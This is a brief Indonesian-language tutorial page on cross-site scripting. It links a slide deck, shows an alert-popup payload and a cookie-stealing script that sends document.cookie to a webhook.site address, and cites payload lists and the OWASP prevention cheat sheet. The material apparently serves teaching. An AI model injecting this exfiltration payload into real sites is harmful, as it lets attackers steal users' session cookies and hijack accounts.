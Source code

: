 # Cross-Site Scripting (XSS)

## File Presentasi
[https://docs.google.com/presentation/d/1Azj513-Xsgi4o93fVbIzi9CiNaGqRqai7tx2Ue-TBYs/edit?usp=sharing](https://docs.google.com/presentation/d/1oHtpDFFgKNm0D-NF5xlUeM5aKFHcAlt85Xabsd-U94Q/edit?usp=sharing)

## Contoh Payload
Memunculkan popup
```
<script>alert('XSS')</script>
```
Stealing Cookie bisa menggunakan bantuan [webhook.site](webhook.site) dengan contoh payload berikut
```
<script>
new Image().src = "https://webhook.site/3dd6c027-758d-4e54-8a10-8b0ff20fb9a2/?cookie=" + document.cookie;
</script>
```
Untuk URL webhook bisa disesuaikan menurut `unique URL` yang ada webhook Anda.

## Referensi
* About XSS [https://www.youtube.com/watch?v=EoaDgUgS6QA](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* Example XSS payload [https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
* XSS Prevention Cheatsheets [https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)